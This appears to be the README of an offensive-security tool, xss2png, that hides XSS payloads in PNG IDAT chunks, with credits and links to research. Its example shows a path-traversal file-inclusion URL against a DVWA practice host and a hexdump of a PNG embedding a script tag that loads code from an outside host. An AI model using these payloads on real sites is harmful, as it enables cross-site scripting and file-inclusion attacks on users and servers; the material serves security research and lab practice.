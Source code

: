 # xss2png
PNG IDAT chunks XSS payload generator


### Credits

fin1te  
Adam Logue  
huntergregal  
IDontPlayDarts  
Masato Kinugawa  
Nathaniel McHugh

### Relevant posts

06-2012 [Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

11-2015 [Bug-hunter's Sorrow](https://www.slideshare.net/masatokinugawa/avtokyo-bug-hunters-sorrow-en)

01-2016 [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)

03-2016 [Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

### Other tools

[PNG-IDAT-chunks](https://github.com/vavkamil/old-repos-backup/tree/master/PNG-IDAT-chunks-master)

[PNG-IDAT-Payload-Generator](https://github.com/huntergregal/PNG-IDAT-Payload-Generator)

### Stack Overflow

[PHP shell on PNG's IDAT Chunk](https://stackoverflow.com/questions/49144776/php-shell-on-pngs-idat-chunk)

### Example

`https://dvwa.capturetheflag.cz/vulnerabilities/fi/?page=../../hackable/uploads/xss.png`

```
vavkamil@localhost:~/Documents/Python/xss2png$ hexdump -c xss.png 
0000000 211   P   N   G  \r  \n 032  \n  \0  \0  \0  \r   I   H   D   R
0000010  \0  \0  \0      \0  \0  \0      \b 002  \0  \0  \0   � 030   �
0000020   �  \0  \0  \0   y   I   D   A   T   x 234   c   �   <   S   C
0000030   R   I   P   T       S   R   C   =   \   \   X   S   S   .   V
0000040   A   V   K   A   M   I   L   .   C   Z   >   <   /   S   C   R
0000050   I   P   T   >       �   �   � 031   �   �   �   =   s   3   �
0000060 025   �   K   � 217 017   _   s   �   �   �   �   �   �   ?   �
0000070 227   _   �   X   1   �   �  \t   �   �   ~   �   �   �   g   o
0000080   4   �   �   v   �   3   2   2 214 202   Q   0  \n   F   �   (
0000090 030 005   �   ` 024 214 202   Q   0  \n 206 034  \0  \0   4   �
00000a0   % 002 021   �   �   �  \0  \0  \0  \0   I   E   N   D   �   B
00000b0   ` 202                                                        
00000b2
````
